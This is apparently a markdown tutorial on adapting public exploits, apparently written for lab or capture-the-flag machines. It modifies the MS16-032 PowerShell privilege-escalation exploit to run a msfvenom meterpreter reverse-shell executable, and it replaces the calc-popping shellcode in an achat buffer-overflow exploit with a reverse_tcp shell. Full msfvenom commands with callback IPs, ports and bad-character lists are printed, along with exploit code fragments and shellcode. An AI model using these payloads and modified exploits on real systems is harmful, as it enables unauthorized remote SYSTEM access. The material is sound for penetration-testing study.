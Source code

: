 # modifying exploits - overview

references: great source > https://zero-day.io/

EXAMPLE 1
# Step 1: Understand what the exploit does

The first step is understanding what the exploit does. you need to have at least a high-level understanding what the exploit does. In many cases, an exploit tries to executes arbitrary code spawn a cmd window, creates a new administrator account or connects back to your listener, spawning you a remote shell.

If we analyze the MS16-032 (https://www.exploit-db.com/exploits/39719) exploit closely, we clearly see it's written in Powershell.

At the end of the exploit, we see the following code:

      # LOGON_NETCREDENTIALS_ONLY / CREATE_SUSPENDED
        $CallResult = [Advapi32]::CreateProcessWithLogonW(
            "user", "domain", "pass",
            0x00000002, "C:\Windows\System32\cmd.exe", "",
            0x00000004, $null, $GetCurrentPath,
            [ref]$StartupInfo, [ref]$ProcessInfo)

This part tells us, after succesfully exploiting the MS16-032 vulnerability, the exploit executes C:\Windows\System32.cmd.exe. This would work great if we have physical access to the victim host, but as we run this exploit remotely via meterpreter, spawning a local extra instance of cmd.exe gives us no root privileges via meterpreter. We found our issue!

Now we need to modify the exploit to allow us to elevate our privileges. The easiest way to do this is by replacing C:\Windows\System32\cmd.exe with a a malicious payload .exe you created yourself with msfvenom, allowing to open a new meterpeter system shell.

# Step 2: Create your own malicious payload

To start building your own malicious payload, open a new terminal and execute the following command:

 msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.15.95 LPORT=5555 -f exe > zeroday.exe

Let's breakdown the above command:

    msvenom (stand-alone metasploit payload generator)
    -p windows/meterpreter/reverse_tcp (specifies the type of payload you want to use in your malicious executable)
    LHOST=10.10.15.95 (your IP adress you want the victim machine to connect back to)
    LPORT=5555 (your local port you want the victim machine to connect back to)
    -f exe > zeroday.exe (specifies the type of excutable you want to generate and the output file)

Next, we start a metasploit listener with the same payload, LHOST and LPORT as you created your payload with. When our payload is executed on the victim host, a meterpreter shell with connect to our listener.


# Step 3: Modify the exploit and execute

Now we have created our own malicious zeroday.exe instead of cmd.exe, all we need to do is modify the exploit so it executes our payload instead of cmd.exe.

First, we returned to our meterpreter shell and uploaded our zeroday.exe to *C:\Users\kostas\Desktop*.

Next, we replaced C:\Windows\System32\cmd.exe with C:\Users\kostas\Desktop\zeroday.exe in the exploit and saved as a .ps1 file. We also uploaded the now modified ps1 file to *C:\Users\kostas\Desktop* on our victim host.

	# LOGON_NETCREDENTIALS_ONLY / CREATE_SUSPENDED
$CallResult = [Advapi32]::CreateProcessWithLogonW(
"user", "domain", "pass",
0x00000002, "C:\Users\kostas\Desktop\zeroday.exe", "",
0x00000004, $null, $GetCurrentPath,
[ref]$StartupInfo, [ref]$ProcessInfo)

To execute our new modified exploit, run following commands:

./zeroday.ps1
Import-Module .ps1
Invoke-MS16-032 

In the screenshot you will notice that I ran Invoke-zeroday2 instead of Invoke-MS16-032. That's because I changed the name of the function for fun as well. No need to worry about that.

If we return to our meterpreter listener, we should have a SYSTEM shell..

==========================================================

EXAMPLE 2 

# Generate your own shellcode

on a box, we found the vulnerable service achat running on port 9256, which should be vulnerable to this exploit.

After analyzing the current exploit (https://www.exploit-db.com/exploits/36025), we see in the comments (msfvenom part) that the current payload shellcode (the second part) is opening calc.exe via cmd. Wouldn't it be nice if we could spawn a reverse shell instead?

~~~~~~~~~~~~~~~~~~~~~~~
msfvenom -a x86 --platform Windows -p windows/exec CMD=calc.exe -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
#Payload size: 512 bytes
~~~~~~~~~~~~~~~~~~~~~~~
~~~~~~~~~~~~~~~~~~~~~~~
buf =  ""
buf += "\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += "\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += "\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += "\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += "\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += "\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += "\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
buf += "\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += "\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
buf += "\x47\x42\x39\x75\x34\x4a\x42\x69\x6c\x77\x78\x62\x62"
buf += "\x69\x70\x59\x70\x4b\x50\x73\x30\x43\x59\x5a\x45\x50"
buf += "\x31\x67\x50\x4f\x74\x34\x4b\x50\x50\x4e\x50\x34\x4b"
~~~~~~~~~~~~~~~~~~~~~~~

To generate shellcode with the payload we like (a reverse shell connecting to our IP and port), we used msfvenom with a modified payload parameter (-p).
~~~~~~~~~~~~~~~~~~~~~~~
msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp LHOST=10.10.14.6 LPORT=4444 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python 
~~~~~~~~~~~~~~~~~~~~~~~
The first (red) highlighted part shows our modified msfvenom command, the second (green) highlighted part shows our new generated shellcode.

Now replace the shellcode from the original exploit with your newly generated exploit code (the green highlighted part in the screenshot above) and adjust the target port and ip to your victim's.

Now, setup a listener in metasploit. Use the same payload as you defined in your payload.

Next step is executing the python exploit you've modified with your generated shellcode. It should now connect to your listener. Don't forget to CHMOD +X your exploit to make it executable.
